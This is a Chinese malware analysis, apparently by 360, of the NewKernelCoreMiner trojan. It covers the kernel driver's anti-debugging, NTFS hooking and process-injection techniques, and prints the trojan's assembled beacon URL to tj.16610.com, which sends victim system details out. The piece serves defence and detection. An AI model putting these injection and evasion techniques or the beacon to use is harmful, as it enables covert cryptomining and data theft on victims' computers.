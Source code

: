 > 原文链接: https://www.anquanke.com//post/id/150910 


# NewKernelCoreMiner 撑起百万收入的挖矿木马


                                阅读量   
                                **118454**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p0.ssl.qhimg.com/t018899e32953737892.jpg)](https://p0.ssl.qhimg.com/t018899e32953737892.jpg)



## 一、木马概述

近日，360安全中心接到网民反馈，称在使用任务管理器查看电脑资源占用时候发现lsass.exe进程占用CPU异常高，而且居高不下。360在提取用户上传的样本文件后发现，这是一类新的驱动挖矿木马，并将其命名为NewKernelCoreMiner。据监测发现，该木马已经感染超过十万设备，保守估计收益超百万。目前，360安全卫士已经率先支持查杀该木马。



## 二、木马分析

### 1、驱动部分

驱动文件信息为[![](https://p4.ssl.qhimg.com/t01072ff8528afed96f.png)](https://p4.ssl.qhimg.com/t01072ff8528afed96f.png)

驱动主要功能如下图[![](https://p5.ssl.qhimg.com/t01f8a4ce9e0f351368.png)](https://p5.ssl.qhimg.com/t01f8a4ce9e0f351368.png)

然后我们从图中几部分对驱动进行详细分析。

入口点[![](https://p1.ssl.qhimg.com/t0134d8f9108f0890d4.png)](https://p1.ssl.qhimg.com/t0134d8f9108f0890d4.png)

全局变量中保存操作系统和驱动信息[![](https://p3.ssl.qhimg.com/t015307c5a8be7e9e5f.png)](https://p3.ssl.qhimg.com/t015307c5a8be7e9e5f.png)

检测内核调试器[![](https://p0.ssl.qhimg.com/t018af9457878f614d2.png)](https://p0.ssl.qhimg.com/t018af9457878f614d2.png)

保存必要驱动信息，为以后随机化线程地址做准备[![](https://p2.ssl.qhimg.com/t017d0db5675076ff87.png)](https://p2.ssl.qhimg.com/t017d0db5675076ff87.png)

然后初始化下注入挖矿模块信息，该链表是可以随时由应用层更新传给驱动的。主要包含信息为要注入进程名字的Hash，注入模块大小，注入模块代码[![](https://p4.ssl.qhimg.com/t01d872052fa6274955.png)](https://p4.ssl.qhimg.com/t01d872052fa6274955.png)

这个链表可以由应用层随时更新的，然后挂钩NTFS 派遣函数

[![](https://p3.ssl.qhimg.com/t0139138a1265a34bc7.png)](https://p3.ssl.qhimg.com/t0139138a1265a34bc7.png)

最后注册进程回调[![](https://p2.ssl.qhimg.com/t0111fb04c76c5992c2.png)](https://p2.ssl.qhimg.com/t0111fb04c76c5992c2.png)

进程回调中判断进程 注入代码并且传递设备句柄用于交互，之前的设备名完全是随机的[![](https://p2.ssl.qhimg.com/t01a10c0d95cdc5f635.png)](https://p2.ssl.qhimg.com/t01a10c0d95cdc5f635.png)

填充各类有效信息到应用层全局变量[![](https://p2.ssl.qhimg.com/t01c0df5455c15e3923.png)](https://p2.ssl.qhimg.com/t01c0df5455c15e3923.png)

### 2、应用层挖矿模块

驱动传来的信息存在全局变量中，继续填充该全局变量[![](https://p3.ssl.qhimg.com/t01e6b6c505de513ba4.png)](https://p3.ssl.qhimg.com/t01e6b6c505de513ba4.png)

再次判断下注入进程名字信息，该模块为通用判断。如果是浏览器进程则挂钩LdrLoadDll[![](https://p2.ssl.qhimg.com/t01f01e67c350234a27.png)](https://p2.ssl.qhimg.com/t01f01e67c350234a27.png)

禁止以下模块加载[![](https://p1.ssl.qhimg.com/t01338e282857b84811.png)](https://p1.ssl.qhimg.com/t01338e282857b84811.png)

也清理下之前的老版本文件，清理的列表文件[![](https://p4.ssl.qhimg.com/t017a1e13287f061c42.png)](https://p4.ssl.qhimg.com/t017a1e13287f061c42.png)

然后创建两个线程

**线程1主要为打点收集用户信息**

上传信息为[![](https://p5.ssl.qhimg.com/t01a17e4ac6deafe62f.png)](https://p5.ssl.qhimg.com/t01a17e4ac6deafe62f.png)

拼接后:

tj.16610.com/api/_mcc_statu.php?STATUS=0&amp;DHS=00000000&amp;UHS=00000000&amp;RHS=00000000&amp;REV=0&amp;RC=0&amp;CID=9098&amp;UID=9098&amp;VER=20180423&amp;RM=NotAvailable&amp;DMJ=0&amp;DMN=0&amp;DBL=0&amp;UMJ=2&amp;UMN=9&amp;UBL=2976&amp;MID=&amp;BW=32&amp;NTMJ=5&amp;NTMN=1&amp;NTBL=2600&amp;NTSPMJ=3&amp;NTSPMN=0&amp;NP=4&amp;MM=2146869248&amp;OSTC=1396281&amp;SVSN=84C5D18C&amp;SVFS=NTFS

**线程2为加载挖矿模块线程**

真正的挖矿功能模块也是动态下载而来，下载地址为[![](https://p4.ssl.qhimg.com/t01ff6e5a03e91278e8.png)](https://p4.ssl.qhimg.com/t01ff6e5a03e91278e8.png)

矿池配置信息[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01da6c3e5d438272af.png)

随机挑选地址格式化参数[![](https://p3.ssl.qhimg.com/t01d74188fe161b2f4f.png)](https://p3.ssl.qhimg.com/t01d74188fe161b2f4f.png)

配置文件信息[![](https://p3.ssl.qhimg.com/t0119a4217311de2b50.jpg)](https://p3.ssl.qhimg.com/t0119a4217311de2b50.jpg)

使用完成后开启线程删除配置文件[![](https://p5.ssl.qhimg.com/t01977e5f15ffa7346a.png)](https://p5.ssl.qhimg.com/t01977e5f15ffa7346a.png)

然后传入配置信息进行挖矿。注入后线程数量[![](https://p1.ssl.qhimg.com/t0135a66a7b49ffe881.png)](https://p1.ssl.qhimg.com/t0135a66a7b49ffe881.png)

进程CPU占用[![](https://p1.ssl.qhimg.com/t01533df0e30f6e72d9.png)](https://p1.ssl.qhimg.com/t01533df0e30f6e72d9.png)

360安全卫士已经支持查杀[![](https://p4.ssl.qhimg.com/t01ac8a7dace198fce2.jpg)](https://p4.ssl.qhimg.com/t01ac8a7dace198fce2.jpg)



## 三、安全提醒

近期挖矿木马非常活跃，让人防不胜防。建议用户及时打上系统补丁，发现电脑卡慢CPU占用过高等异常情况时候使用安全软件扫描，同时注意保证安全软件的常开以进行防御一旦受诱导而不慎中招，尽快使用360安全卫士查杀清除木马。

此外，360安全卫士已经推出了挖矿木马防护功能，全面防御从各种渠道入侵的挖矿木马。用户开启了该功能后，360安全卫士将会实时拦截各类挖矿木马的攻击，为用户计算机安全保驾护航。

下载地址:[http://down.360safe.com/inst.exe](http://down.360safe.com/inst.exe)
